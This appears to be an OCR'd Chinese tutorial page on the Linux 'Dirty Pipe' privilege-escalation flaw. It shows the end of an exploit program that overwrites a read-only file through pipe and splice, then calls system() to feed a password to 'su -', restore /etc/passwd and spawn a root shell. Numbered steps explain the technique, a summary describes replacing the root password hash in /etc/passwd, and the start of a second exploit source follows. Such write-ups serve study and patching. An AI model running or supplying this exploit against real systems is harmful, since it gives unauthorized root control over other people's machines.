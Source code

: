       134.     if (nbytes < 0) {
    
      135.         perror("write failed");
    
      136.         return EXIT_FAILURE;
    
      137.     }
    
      138.     if ((size_t)nbytes < data_size) {
    
      139.         fprintf(stderr, "short write\n");
    
      140.         return EXIT_FAILURE;
    
      141.     }
    
      142.   143.     printf("It worked!\n");
    
      144.   145.         system("/bin/sh -c '(echo aaron; cat) | su - -c \""
    
      146.                 "echo \\\"Restoring /etc/passwd from /tmp/passwd.bak...\\\";"
    
      147.                 "cp /tmp/passwd.bak /etc/passwd;"
    
      148.                 "echo \\\"Done! Popping shell...\\\";"
    
      149.                 "sleep 2;"
    
      150.                 "echo \\\"(run commands now)\\\";"
    
      151.                 "/bin/sh;" // one shold work
    
      152.             "\" root'");
    
      153.     return EXIT_SUCCESS;
    
      154. }
    
    
    

  1. 创建一个管道（pipe）

  2. 通过（pipe_write）填充管道至满，这样所有的buf(pipe 缓存页)都初始化过了，flag 默认初始化为PIPE_BUF_FLAG_CAN_MERGE

  3. 将管道清空(pipe_read)，这样通过splice()系统调用传送文件的时候就会使用原有的初始化过的buf结构

  4. 使用Splice()读取目标文件（只读）的一字节数据发送至pipe

  5. write()将任意数据继续写入pipe，此数据会覆盖目标文件内容

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714175312.png)

利用总结与拓展：

  * 通过漏洞覆写`/etc/passwd`密码文件，然后使用该`openssl`命令为您选择的密码创建一个 SHA512Crypt 哈希，修改 root 帐号密码，然后通过管道将自定义密码灌入`su -`命令达到切换到 root 帐号的目的，从而实现提权。

    
          1. #define _GNU_SOURCE
    
      2. #include <unistd.h>
    
      3. #include <fcntl.h>
    
      4. #include <stdio.h>
    